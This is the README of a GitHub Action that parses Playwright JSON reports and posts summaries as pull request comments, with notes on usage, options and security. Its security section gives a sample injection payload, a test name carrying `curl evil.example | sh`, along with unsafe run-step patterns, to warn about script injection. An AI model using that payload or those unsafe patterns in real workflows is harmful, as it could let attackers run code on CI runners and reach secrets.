


#    Playwright Report Summary

[](https://github.com/super-linter/super-linter)


A GitHub action to report Playwright test results as a pull request comment.

- Parse the JSON test report generated by Playwright
- Generate a markdown summary of the test results
- Post the summary as a pull request comment
- Uses GitHub's official [icons](https://primer.style/design/foundations/icons) and
  [color scheme](https://primer.style/design/foundations/color)

## Examples





## Usage

### Basic usage

Playwright must be configured to [generate a JSON report](https://playwright.dev/docs/test-reporters#json-reporter) and
write it to disk. This action receives the report file path as input, in this case `results.json`.

Note the `if: always()` to ensure the report comment is created even if the tests failed.

```yaml
jobs:
  test:
    name: Run playwright tests
    needs: install
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v6
        with:
          node-version: 24

      - run: PLAYWRIGHT_JSON_OUTPUT_NAME=results.json npx playwright test --reporter=json

      - uses: daun/playwright-report-summary@v4
        if: always()
        with:
          report-file: results.json
```

### Usage with custom commenting logic

The action will do the work of creating comments and updating them whenever tests re-run. If you require custom logic
for creating and updating comments, you can disable the default logic and use any other action in combination with the
`summary` output of this action.

A few recommended actions are
[Sticky Pull Request Comment](https://github.com/marketplace/actions/sticky-pull-request-comment) and
[Create or Update Comment](https://github.com/marketplace/actions/create-or-update-comment).

```diff
  - uses: daun/playwright-report-summary@v4
    if: always()
    id: summary
    with:
      report-file: results.json
+     create-comment: false

+ - uses: marocchino/sticky-pull-request-comment@v3
+   with:
+     message: ${{ steps.summary.outputs.summary }}
```

## Options

```yaml
- uses: daun/playwright-report-summary@v4
  if: always()
  with:
    # The GitHub access token to use for API requests
    # Defaults to the standard GITHUB_TOKEN
    github-token: ''

    # Path to the JSON report file generated by Playwright. Required.
    report-file: 'results.json'

    # A unique tag to represent this report when reporting on multiple test runs
    # Defaults to the current workflow name
    report-tag: ''

    # URL to a published html report, uploaded by another action in a previous step.
    # Example pipeline: https://playwright.dev/docs/test-sharding#publishing-report-on-the-web
    report-url: 'https://user.github.io/repo/yyyy-mm-dd-id/'

    # Number of the pull request to comment on. This is only required if the action
    # is run outside a pull request context or needs to comment on another PR.
    pr-number: 123

    # Whether the action should create the actual comment. Set to false to implement
    # your own commenting logic.
    # Default: true
    create-comment: true

    # Title/headline to use for the created pull request comment.
    # Default: 'Playwright test results'
    comment-title: 'Test results'

    # Additional information to include in the summary comment, markdown-formatted
    # Default: ''
    custom-info: 'For more information, [see our readme](http://link)'

    # Configure order and visibility of test results (options: passed, failed, flaky, skipped)
    # Prefix each status with a minus sign to collapse it by default, e.g. '-passed'
    # Default: 'failed, -flaky, -skipped' (expand failed tests, collapse flaky and skipped tests, hide passed tests)
    sections: 'failed, -flaky, -skipped'

    # Create a job summary comment for the workflow run
    # Default: false
    job-summary: false

    # Icon style to use: octicons | emojis
    # Default: octicons
    icon-style: 'octicons'

    # Command used to run tests. If provided, a command to re-run failed or
    # flaky tests will be printed for each section.
    # Default: ''
    test-command: 'npm run test --'

    # Additional content to add to the comment below the test report.
    # Default: ''
    footer: ''
```

## Output

The action creates three output variables:

### summary

The rendered markdown summary of the test report.

### comment-id

The ID of the comment that was created or updated

### report-data

The raw data of the test report, as a JSON-encoded string. This is useful for creating custom summaries or debugging.
You can get an idea of the data structure by checking out the
[ReportSummary interface](https://github.com/daun/playwright-report-summary/blob/main/src/report.ts#L13).

## Security: using outputs safely

The `summary` and `report-data` outputs contain strings derived from the Playwright JSON report — including
test titles, file paths, error messages and stack traces. When tests are produced from pull-request code
(for example in a `pull_request_target` workflow, or via a `workflow_run` that downloads a report artifact
from a fork PR), **those strings are attacker-controlled**.

The action sanitizes its rendered comment so that untrusted content cannot inject active markdown.
However, the `summary` and `report-data` outputs are deliberately raw so you can post-process them.
GitHub Actions interpolates output values **literally, before the shell parses the command**, so passing
them into a `run:` step can lead to script injection on the runner.

### ✅ Safe patterns

Pass outputs as **inputs to another action**. Action inputs are not shell-interpreted.

```yaml
- uses: daun/playwright-report-summary@v4
  id: summary
  with:
    report-file: results.json
    create-comment: false

- uses: marocchino/sticky-pull-request-comment@v3
  with:
    message: ${{ steps.summary.outputs.summary }}   # safe: action input
```

If you need an output inside a `run:` step, pass it through an **environment variable** and quote the
shell expansion. The value never touches the shell parser.

```yaml
- run: |
    echo "$SUMMARY" >> notes.md
  env:
    SUMMARY: ${{ steps.summary.outputs.summary }}    # safe: env var, quoted
```

### ⚠️ Unsafe patterns

Do **not** interpolate `summary` or `report-data` directly into a `run:` script:

```yaml
- run: echo "${{ steps.summary.outputs.summary }}"        # UNSAFE
- run: curl -d "${{ steps.summary.outputs.report-data }}" \  # UNSAFE
        https://example.com
```

A test named `` `; curl evil.example | sh; # `` would execute on your runner.

See GitHub's guidance on
[understanding the risk of script injections](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#understanding-the-risk-of-script-injections)
for more.

## Security: triggering from `issue_comment`

The action supports being run from an `issue_comment` event so you can, for example, re-post the summary
when someone comments `/retest` on a PR. **Be aware that in a public repository any GitHub user can
comment on a PR**, so an unguarded `issue_comment` workflow lets arbitrary users trigger the action
(and consume your minutes, and cause `github-actions[bot]` to post a comment in response to their input).

If you wire the action to `issue_comment`, gate the job on the commenter's association with the
repository. Examples:

```yaml
on: issue_comment

jobs:
  summary:
    # Only run for comments authored by users with write access or above.
    if: >-
      github.event.issue.pull_request &&
      contains(fromJSON('["OWNER", "MEMBER", "COLLABORATOR"]'),
               github.event.comment.author_association)
    runs-on: ubuntu-latest
    steps:
      - uses: daun/playwright-report-summary@v4
        with:
          report-file: results.json
```

Or restrict to an explicit actor allowlist:

```yaml
    if: github.event.issue.pull_request && github.actor == 'your-bot-user'
```

If your `issue_comment` job additionally **checks out the PR head** (e.g. to re-run tests), the same
threat model as `pull_request_target` applies: treat the checked-out code as untrusted and never run it
with repository secrets in scope. See GitHub's
[keeping your GitHub Actions and workflows secure](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)
for background.

## License

[MIT](./LICENSE)
